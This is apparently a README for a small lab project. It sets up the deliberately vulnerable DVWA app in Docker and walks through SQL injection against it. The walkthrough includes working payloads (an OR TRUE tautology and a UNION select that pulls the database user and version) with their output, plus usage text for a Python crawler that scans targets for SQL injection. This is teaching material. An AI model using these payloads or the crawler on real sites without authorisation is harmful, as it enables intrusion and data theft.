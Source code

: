 # demo-python-three

## description
search a 'remote' target hosting a **'damn vulnerable web application'** instance for an sql injection vulnerability

## installation / setup
```
> docker search dvwa
> docker pull citizenstig/dvwa
> docker images
> docker run -d -p 80:80 citizenstig/dvwa
```
yields a 'target host' at `http://localhost:80/`

optionally use..
```
> docker ps -a
> docker exec -it 8a021ce97f45 /bin/bash
> cd /var/www/html/
```
..for a rummage around the service's files

the compromise is only possible for a lowered security version of the site, configurable by insecure `security` cookie override `impossible` -> `low` post login

```
> waterfox 127.0.0.1/login.php
username: 'admin' / password: 'password'
> waterfox 127.0.0.1/vulnerabilities/sqli/index.php
S-f2 (mozilla developer bar) -> cookie set security low
```

## sql injection exploitation
confirmation of the vulnerability can be observed via the multiple return records visible following POST of the following `id`:
```
"-1 OR TRUE #"
```
returning:
```
ID: -1' OR TRUE #
First name: admin
Surname: admin

ID: -1' OR TRUE #
First name: Gordon
Surname: Brown

ID: -1' OR TRUE #
First name: Hack
Surname: Me

ID: -1' OR TRUE #
First name: Pablo
Surname: Picasso

ID: -1' OR TRUE #
First name: Bob
Surname: Smith
```

php's `mysql_query` filters multiple statements by default to make sql injection harder / less destructive ..but alas, composite select statements are still single statements, so via use of sql UNIONs arbitrary selects can be made ..although in this instance not easily recovered given the shape of the hard coded field selection criteria, limiting us to **'\*x2'** output dimensions

extracting the database version and user can be achieve by:
```
"-1' union select user(), @@version #"
```
yielding
```
ID: -1' union select user(), @@version #
First name: admin@localhost
Surname: 5.5.47-0ubuntu0.14.04.1
```

## automation: 'spider' - the crawler
python based crawler..

### usage
```
usage: spider.py [-h] [-v LEVEL] TARGET

Given a target host's root, 'spider' searches for basic sql injection
vulnerabilities and returns the database user and version where successful

positional arguments:
  TARGET                base url to initialise crawl from

optional arguments:
  -h, --help            show this help message and exit
  -v LEVEL, --verbose LEVEL
                        increase the level of information output
```

## dependencies
- docker
- dvwa
